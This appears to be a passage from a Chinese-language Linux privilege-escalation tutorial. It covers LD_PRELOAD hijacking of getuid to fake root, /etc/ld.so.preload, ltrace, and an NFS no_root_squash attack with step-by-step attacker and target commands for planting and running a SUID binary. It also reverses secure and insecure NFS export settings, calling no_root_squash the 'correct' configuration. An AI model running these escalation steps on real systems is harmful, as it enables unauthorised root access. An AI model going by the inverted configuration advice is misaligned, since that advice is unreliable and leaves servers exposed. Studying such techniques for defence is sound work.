- 动态链接：只装一个小程序，需要什么功能就从系统里现找
# LD_PRELOAD
这是一个特殊的环境变量，它能告诉系统："在运行程序之前，先加载这个我指定的库"。
# 示例
# 步骤 1：创建一个测试程序
#include <stdio.h> | |
#include <unistd.h> | |
int main() { | |
// 获取当前用户 ID | |
uid_t uid = getuid(); | |
printf("当前用户ID是: %d\n", uid); | |
// 如果是 root 用户（ID 为 0） | |
if(uid == 0) { | |
printf("你是root用户！\n"); | |
} else { | |
printf("你不是root用户。\n"); | |
} | |
return 0; | |
} |
编译这个程序：
gcc -o test test.c |
# 步骤 2：创建我们的 "假函数" 库
#include <stdio.h> | |
#include <unistd.h> | |
// 我们自己的假 getuid 函数 | |
uid_t getuid(void) { | |
printf("【注意】这是被劫持的getuid函数！\n"); | |
return 0; // 总是返回 0（root 的 ID） | |
} |
编译成共享库：
gcc -shared -fPIC fake.c -o fake.so |
这里解释一下编译参数：
-shared：告诉编译器我们要创建一个共享库-fPIC：生成位置无关代码，使得库可以被加载到内存的任何位置
# 步骤 3：测试原始程序
# 运行原始程序 | |
./test |
可能的输出：
当前用户ID是: 1000
你不是root用户。
# 步骤 4：使用 LD_PRELOAD 进行劫持
# 设置 LD_PRELOAD 环境变量 | |
export LD_PRELOAD=$PWD/fake.so | |
# 再次运行程序 | |
./test |
现在的输出应该是：
【注意】这是被劫持的getuid函数！
当前用户ID是: 0
你是root用户！
注意：SUID 程序会忽略 LD_PRELOAD ，有些系统也限制了 LD_PRELOAD 的使用
# ld.so.preload
/etc/ld.so.preload 是一个系统级的配置文件，用于指定在加载任何其他共享库之前要加载的共享库。它的作用类似于 LD_PRELOAD 环境变量，但是：
- 它是系统级的
- 影响所有程序
- 需要 root 权限才能修改
# 文件格式
/etc/ld.so.preload# 每行一个库的完整路径
/path/to/first.so
/path/to/second.so
/path/to/third.so
# 与 LD_PRELOAD 的区别
LD_PRELOAD:
- 环境变量
- 用户级别
- 临时性
- 易于更改
- 可被SUID程序忽略
ld.so.preload:
- 配置文件
- 系统级别
- 永久性
- 需要root权限
- 影响所有程序（包括SUID）
# ltrace 命令
ltrace 主要用于跟踪程序的库函数调用：
# 基本使用 | |
ltrace ./program | |
# 显示参数值 | |
ltrace -S ./program | |
# 跟踪特定函数 | |
ltrace -e malloc+free ./program | |
# 显示时间戳 | |
ltrace -t ./program | |
# 保存输出到文件 | |
ltrace -o output.log ./program |
# 8. NFS 配置错误导致的提权
# NFS
NFS 就像是在网络上的 "共享文件夹"。就像你在 Windows 电脑上可以共享文件夹给其他人一样，Linux 系统也可以通过 NFS 把某个文件夹共享出去，让其他电脑可以访问。
# 安全问题
假设你有两台电脑:
- A 电脑 (目标机器)
- B 电脑 (攻击者的机器)
现在，A 电脑上有个共享文件夹，但是它的设置出了问题 (使用了 no_root_squash 这个选项)。这就像是:
- 本来应该给客人 "访客" 权限
- 结果错误地给了客人 "管理员" 权限
正确的 /etc/export 配置：
/shared_folder *(rw,no_root_squash)错误的 /etc/export 配置:
/shared_folder *(rw,root_squash)
# 利用
在攻击机上
# 1. 查看目标共享 | |
showmount -e target_ip | |
# 假设输出: /home/share * | |
# 2. 创建挂载点 | |
mkdir /tmp/attack | |
# 3. 挂载目标共享 | |
mount -t nfs target_ip:/home/share /tmp/attack | |
# 4. 创建并编译程序 | |
gcc evil.c -o evil | |
# 5. 复制到挂载点并设置 SUID | |
cp evil /tmp/attack/ | |
chmod u+s /tmp/attack/evil |
目标机器上
# 1. 进入共享目录 | |
cd /home/share | |
# 2. 执行程序 | |
./evil | |
# 3. 验证权限 | |
whoami | |
id |